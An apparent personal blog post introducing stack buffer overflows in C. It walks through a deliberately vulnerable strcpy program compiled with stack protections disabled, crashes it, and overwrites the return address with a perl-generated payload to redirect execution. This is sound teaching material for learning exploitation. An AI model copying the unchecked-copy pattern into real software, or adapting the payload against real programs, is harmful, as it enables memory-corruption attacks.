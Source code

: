 ```yaml
---
title: "Bugger Overglow"
date: 2023-10-08T02:51:50+02:00
draft: false
pin: true
summary: "Introduction to Buffer Overflow in C"
---
```


# Introduction to Buffer Overflow in C

I'm actually learning `C` language and I want to focus my learning on the exploitation of binaries in C.

In the next posts, I will be trying to explain to you and also to myself the most basic terms and functions in this field.

👉 Main Source: [Linux Exploiting - David Puente Castro](https://0xword.com/es/libros/55-linux-exploiting.html)

🚧 First of all, we must take into account...

- The architecture: `x86 (IA32, x86, x86_32, i386)` or `x64 (AMD64, Intel 64, x86_64)`.

- Storage format: `little endian` or `big endian`

- The operating system.

**All subsequent examples are done in `GNU/Linux x86`.**

In my case, I'm using [Ubuntu Desktop](https://ubuntu.com/download/desktop) from Windows to perform the tests with an `Intel x64 architecture` and `little endian` format.

The best options are to use a [virtual machine](https://www.virtualbox.org/) (I recommend Oracle VM VirtualBox) or a [Docker](https://www.docker.com/) to virtualize the work space.

Pages of interest:
- [Virtual machine tutorial with Ubuntu](https://ubuntu.com/tutorials/how-to-run-ubuntu-desktop-on-a-virtual-machine-using-virtualbox#1-overview)
- [Docker in Visual Studio Code](https://code.visualstudio.com/docs/containers/overview)

## What is a Buffer Overflow?

A buffer overflow is a computer security vulnerability that occurs when a program or process tries to store more data in a buffer (a temporary data storage area) than it can hold. As a result, the extra data can overwrite adjacent memory areas, causing unexpected behaviors in the program, such as crashes, freezes, or even the execution of malicious code.

Buffer overflows are a common cause of security vulnerabilities, especially in programs written in languages like C and C++, which **DO NOT perform automatic boundary checks on arrays**. Attackers can exploit this vulnerability to overwrite the buffer's content with malicious data, such as executable code, leading to arbitrary code execution and compromising the system's security.

Let's take a look into this example from the book:

```c
 1 | #include <string.h>
 2 | #include <stdio.h>
 3 | #include <stdlib.h>
 4 | void func(char *arg)
 5 | {
 6 | 	char name[32];
 7 | 	strcpy(name, arg);
 8 | 	printf("\nWelcome to Linux Exploiting %s\n\n", name);
 9 | }
 10| int main(int argc, char *argv[])
 11| {
 12| 	if (argc != 2) {
 13| 		printf("Usage: %s NAME\n", argv[0]);
 14| 		exit(0);
 15| 	}
 16| 	func(argv[1]);
 17| 	printf("End of program\n\n");
 18| 	return 0;
 19| }
```

In `func() - line 4 to 9`, we are allocating `arg`'s information into `name` with `strcpy(name, arg)` and printing _"Welcome to Linux Exploiting [name]"_ into the standard output. The problem here is that `arg` can be any string of characters entered by the user as we can see in `func(argv[1]) - line 16`.

So, taking into consideration that C doesn't perform automatic boundary checks on arrays, we could overwrite buffer's content like the return of the function.

Let's compile:
```bash
$ gcc -m32 -no-pie -fno-stack-protector -o main main.c
# As I'm using x64, I need to install multilib to compile in x86 (-m32). ALSO, we need to prevent the binary from being placed in any base position (-no-pie) and disable the use of canaries (-fno-stack-protector).
```

If we execute the program...
```bash
$ ./main Laura

Welcome to Linux Exploiting Laura

End of program

```
everything works perfectly BUT, what if we tried with another string:

```bash
$ ./main Lauraaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Welcome to Linux Exploiting Lauraaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Segmentation fault # unexpected behavior
```

`Segmentation fault` is the term when a program tries to access a memory location that it’s not allowed to access. It’s a mechanism provided by the operating system to prevent data corruption and unauthorized access to other programs’ memory spaces.

So, what now?

Let's disassemble the executable and then find the lines that contain the text string `func`.

```bash
$ objdump -d ./main | grep func
080491a6 <func>:
 8049235:       e8 6c ff ff ff          call   80491a6 <func>
```

We can see the beggining of the function `func` in the memory address `080491a6`. What would happen if we exactly overwrote that memory address?

```bash
$ ./main `perl -e 'print "A"x44 . "\xa6\x91\x04\x08"x4'`
# We pass to the program a string of characters generated by Pearl as an argument.

Welcome to Linux Exploiting AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������


Welcome to Linux Exploiting U��S��$�.�����N.


Welcome to Linux Exploiting U��S��$�.�����N.


Welcome to Linux Exploiting


Welcome to Linux Exploiting 

Segmentation fault
```

In short, we have managed to have an unexpected behavior.